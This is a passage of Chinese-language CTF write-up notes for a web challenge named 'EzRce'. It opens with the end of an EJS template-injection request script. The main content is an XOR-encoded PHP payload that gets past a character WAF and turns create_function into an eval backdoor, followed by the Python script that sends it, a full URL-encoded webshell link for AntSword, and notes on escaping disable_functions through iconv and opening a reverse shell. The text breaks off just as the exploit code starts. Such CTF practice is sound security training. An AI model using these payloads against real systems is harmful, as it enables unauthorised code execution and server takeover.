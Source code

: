 			          "settings": {
			              "view options": {
			                  "client": "1",
			                  "escape": ejs_escape,
			              }
			          }
			      },
			  )
			  print(r.text)
			  ```
- # EzRce
  collapsed:: true
	- 思路
		- 利用异或绕过WAF
		- 利用create_function实现eval RCE
		- 打`disable_functions`: [[CTFWEB/PHP/绕过disable_function]]
	- 绕过WAF
		- fuzz出所有可用的字符，然后异或绕过
		- 自用模块
			- ```python
			  
			  def waf(s):
			      return all(c in valid_chars for c in s)
			  
			  
			  xor = encoder.XorStringPairFinder(init=ord("@"), filter_func = waf)
			  xor.find_str("}eval($_POST[data]);#")
			  # ('@@V@@vev,e%vv%@V@!v^|', '=% !,^A)|*v"-A!"!|_e_')
			  ```
		- 最后payload
			- ```python
			  payload = """
			  ('@$@@V@#@#@@V@@@'^'#V%!"%|&V.#")/.')('',('@@V@@vev,e%vv%@V@!v^|'^'=% !,^A)|*v"-A!"!|_e_'));
			  """.strip()
			  ```
	- RCE
		- ```python
		  # create_function('','}eval($_POST[data]);#')
		  payload = """
		  ('@$@@V@#@#@@V@@@'^'#V%!"%|&V.#")/.')('',('@@V@@vev,e%vv%@V@!v^|'^'=% !,^A)|*v"-A!"!|_e_'));
		  """.strip()
		  r = base_post(url, params = {
		      "data": payload
		  }, data = {
		      "data": "highlight_file('waf.php');"
		  })
		  with open("test.html", "w") as f:
		      f.write(r.text) 
		  print(r.url)
		  print(r.text)
		  ```
		- 蚁剑直连，密码data
			- ```
			  http://aqooq1tqahm40phupjgdpccls.node.game.sycsec.com/?data=%28%27%40%24%40%40V%40%23%40%23%40%40V%40%40%40%27%5E%27%23V%25%21%22%25%7C%26V.%23%22%29%2F.%27%29%28%27%27%2C%28%27%40%40V%40%40vev%2Ce%25vv%25%40V%40%21v%5E%7C%27%5E%27%3D%25+%21%2C%5EA%29%7C%2Av%22-A%21%22%21%7C_e_%27%29%29%3B
			  ```
	- disable_functions
		- 打iconv绕过，参考： ((64f02a3a-0eae-4d6c-8b73-8b34d2a17473))
		- 注意这里貌似有缓存机制，不会重新加载exp.so, 建议直接反弹shell
		- exp
			- ```python